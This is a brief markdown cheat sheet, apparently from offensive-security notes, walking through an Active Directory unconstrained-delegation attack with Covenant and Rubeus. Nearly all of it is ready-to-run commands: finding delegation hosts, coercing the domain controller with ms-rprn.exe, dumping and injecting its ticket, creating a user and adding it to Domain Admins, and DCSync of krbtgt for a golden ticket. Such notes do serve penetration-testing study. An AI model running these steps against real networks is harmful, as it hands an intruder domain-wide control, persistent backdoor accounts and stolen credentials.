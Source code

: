 # Unconstrained Delegation

- This means that the computer is trusted to delegate any service.

## Enumeration

- Here we assume we have a high integrity grunt in Covenant with a computer that has unconstrained delegation, we can check this using this command:
  `powershell get-netcomputer -unconstrained -properties dnshostname`  
  Here is what the result looks like, so we have Workstation-01 that has unconstrained Delegation
  ```
  dnshostname                  
  -----------                  
  DC01.domain.local          
  WORKSTATION-01.domain.local
  ```

## Exploitation

- We upload ms-rprn.exe with the Covenant `upload` command to our target
- We run it `shell ms-rprn.exe \\dc01 \\workstation-01`
- run `rubeus dump /service:krbtgt` here we will want to copy and keep aside the DC01 Base64EncodedTicket
- `maketoken adminsitrator domain type-any-string-here`
- `rubeus ptt /ticket PASTE-HERE-DC01-Base64EncodedTicket`
- We should now be able to create a new user and add it to the Domain Admins
  ```
  shell net user user SafePass1! /add /domain
  shell net group "Domain Admins" user /add /domain
  ```
- `dcsync domain\krbtgt` We will need this if we want to do a golden ticket
